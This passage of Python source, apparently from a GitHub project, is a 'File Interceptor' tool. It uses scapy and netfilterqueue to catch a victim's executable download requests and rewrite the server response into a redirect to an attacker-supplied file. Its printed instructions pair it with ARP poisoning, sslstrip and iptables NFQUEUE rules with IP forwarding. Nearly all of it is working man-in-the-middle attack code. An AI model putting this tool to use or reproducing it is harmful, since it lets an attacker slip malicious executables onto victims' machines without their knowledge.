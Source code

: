 ```python
        if scapy_packet[scapy.TCP].dport == 10000:
            #print("[+] HTTP Request found")
            # Check for download exe's
            if options.type in scapy_packet[scapy.Raw].load:
                print("[+] An exe request has been found. Trying to Intercept.\n")
                ack_list.append(scapy_packet[scapy.TCP].ack)
            #print(scapy_packet.show())
        # using sslstrip
        elif scapy_packet[scapy.TCP].sport == 10000:
            #print("[+] HTTP Response found")
            # Checking for redundant exe
            if scapy_packet[scapy.TCP].seq in ack_list and options.host.split("//")[1] not in scapy_packet[scapy.Raw].load :
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file\n\n")
                # Remove any clutter added to packet using \n\n
                modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\r\nLocation: " + options.host + "\n\n")
                print("[+] Request succesfully redirected to target: " + options.host)
                # Convert scapy packet to str and payload
                packet.set_payload(str(modified_packet))

    packet.accept()

print("""
    _______ __        ____      __                            __            
   / ____(_) /__     /  _/___  / /____  _____________  ____  / /_____  _____
  / /_  / / / _ \    / // __ \/ __/ _ \/ ___/ ___/ _ \/ __ \/ __/ __ \/ ___/
 / __/ / / /  __/  _/ // / / / /_/  __/ /  / /__/  __/ /_/ / /_/ /_/ / /    
/_/   /_/_/\___/  /___/_/ /_/\__/\___/_/   \___/\___/ .___/\__/\____/_/     
                                                   /_/                      
    """)

try:
    options = get_arguments()
    print("[-] Note: To redirect a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    print("\n\n******************************************************************************************")
    print("""
    [!] Run the following commands as root before using this program.
    
    1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
    2. iptables -I INPUT -j NFQUEUE --queue-num 0
    3. echo 1 > /proc/sys/net/ipv4/ip_forward
    
    """)
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n[+] Exitting!")
```
